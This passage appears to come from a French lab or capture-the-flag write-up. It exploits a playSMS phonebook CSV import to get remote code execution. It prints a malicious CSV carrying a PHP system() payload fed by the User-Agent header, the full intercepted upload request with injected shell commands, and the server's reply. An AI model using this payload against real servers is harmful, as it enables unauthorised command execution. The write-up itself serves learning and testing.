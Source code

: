 ![Affichage de l'image Index-ImportCSV.png](images/Index-ImportCSV.png)

Le principe de l'exploit consiste à uploader un fichier CSV malveillant contenant du code PHP, qui sera exécuté par le serveur distant. Point important, le code PHP doit être situé dans le _User-Agent_ du navigateur de l'attaquant, pour que l'exploit puisse fonctionner.

```console
root@blinils:~# cat RCE-playsms.csv
"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
```

### Requête n°1 interceptée par Burp

```console
POST /SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=import HTTP/1.1
Host: 192.168.56.101
User-Agent: id; uname -a;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.101/SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=list
Content-Type: multipart/form-data; boundary=---------------------------188761488325323
Content-Length: 448
Cookie: PHPSESSID=ptslj41of81uh73res2dke4h85
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------188761488325323
Content-Disposition: form-data; name="X-CSRF-Token"

46f86826de7eedc26692febf19a27b5b
-----------------------------188761488325323
Content-Disposition: form-data; name="fnpb"; filename="RCE-playsms.csv"
Content-Type: application/vnd.ms-excel

"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
-----------------------------188761488325323--
```

### Réponse n°1 interceptée par Burp

```console
HTTP/1.1 200 OK
Date: Sun, 11 Nov 2018 00:01:02 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
X-Frame-Options: SAMEORIGIN
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 8765
Connection: close
Content-Type: text/html

--snip--
		
		<div id="main-content">
			
			<h2>Phonebook</h2>
			<h3>Import confirmation</h3>
			<div class=table-responsive>
```
